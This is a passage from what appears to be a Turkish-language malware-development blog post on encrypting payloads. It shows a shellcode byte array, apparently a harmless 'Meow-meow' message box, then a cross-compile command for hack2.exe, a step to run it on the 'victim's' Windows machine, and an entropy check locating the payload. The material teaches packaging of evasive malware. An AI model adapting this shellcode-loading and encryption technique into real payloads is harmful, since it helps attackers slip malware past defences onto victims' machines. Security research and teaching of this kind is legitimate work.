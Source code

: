 ```cpp
  0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
  0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
  0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
  0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
  0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
  0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
  0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
  0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
  0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
  0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
};
```

Ayrıca, bu kod dolgu (padding) şemasını ve yük uzunluğunu doğru şekilde korur.    

### demo 2

Hadi her şeyi aksiyonda görelim. Derleyelim (benim `linux` makinemde):    

```bash
x86_64-w64-mingw32-gcc -O2 hack2.c -o hack2.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

![kriptografi](./images/136/2024-10-20_07-58.png){width="80%"}      

Daha sonra, bunu kurbanın makinesinde (`windows 11 x64` benim durumumda) çalıştırın:    

```powershell
.\hack2.exe
```

![kriptografi](./images/136/2024-10-20_08-01_1.png){width="80%"}      

![kriptografi](./images/136/2024-10-20_08-02.png){width="80%"}      

Gördüğünüz gibi, her şey mükemmel çalıştı! =^..^=    

Shannon entropisini hesaplama:    

```bash
python3 entropy.py -f hack2.exe
```

![cryptography](./images/136/2024-10-21_06-53.png){width="80%"}      

Payload'ımız `.text` bölümünde.    

Bildiğiniz gibi, araştırmalarımda ve bu [blogda](https://cocomelonc.github.io/malware/2024/07/16/malware-cryptography-29.html) incelediğim [birçok](https://cocomelonc.github.io/malware/2023/03/09/malware-av-evasion-13.html) şifreleme algoritması [Feistel ağlarını](https://cocomelonc.github.io/malware/2023/08/28/malware-cryptography-20.html) kullanmaktadır.    
